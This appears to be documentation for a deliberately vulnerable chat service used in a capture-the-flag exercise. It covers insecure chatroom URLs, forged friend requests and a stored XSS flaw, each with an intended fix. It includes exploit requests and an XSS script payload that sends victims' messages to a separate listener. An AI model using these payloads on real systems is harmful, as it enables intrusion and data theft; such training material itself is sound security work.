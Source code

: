Service documentation
======================
# Service Structure
![Service Structure](Service%20Structure.svg)
Register, Login requests and the home page are handled by the server.js. All other requests are routed to separate controllers. The controllers use models to interact with the database. The views are rendered using ejs templates.
# Functionality
- Chatrooms
- Private Messages
- Friend Requests
- Profiles
- Profile Posts
# Vulnerabilities
## Access to private chatrooms
### Insecure URL generation

- Category: Misconfiguration
- Difficulty: Easy

Using the name of a private chatroom, it is possible to join the chatroom.
### Friend requests

- Category: Authorization
- Difficulty: Easy

Friend requests can be sent or accepted by anyone. This allows anyone to view any profile and see which chatrooms they are a member of.
### Exploit
    post http://localhost:3000/friends/requests body: {"userName":"foo", "partner":"bar", "status": "send"}
    post http://localhost:3000/friends/requests body: {"userName":"bar", "partner":"foo", "status": "accept"}
    get http://localhost:3000/profile/bar
    get http://localhost:3000/chatrooms/secret
### Intended Fixes
1. Change URL generation to be independent of the chatroom name.
2. Add check that the user sending the request is the same as the userName in the request body. And check that the user accepting the request is the same as the partner in the request body.
## Cross-Site Scripting (XSS)

- Category: XSS
- Difficulty: Medium

The new private message popup is vulnerable to XSS. The message is not sanitized and can be used to execute arbitrary JavaScript code.
The checker uses a headless browser to retrieve the flag from the private messages, and will load through as many unread messages as possible.
### Exploit
    post http://localhost:3000/messages body: {"recipient":"foo", "message":"<script>function getText(){let text='';let messages = document.getElementsByClassName('message');for(let i = 0; i < messages.length; i++){text += messages[i].innerHTML;}return text; }fetch('http://localhost:6452/', {method: 'POST', body:'flag=' + getText(),headers: { 'Content-Type': 'application/x-www-form-urlencoded', },}); </script>"}
### Intended Fix
Change the ejs tag to '<%= unreadMessage.text%>' instead of '<%- unreadMessage.text%>' to sanitize the message.

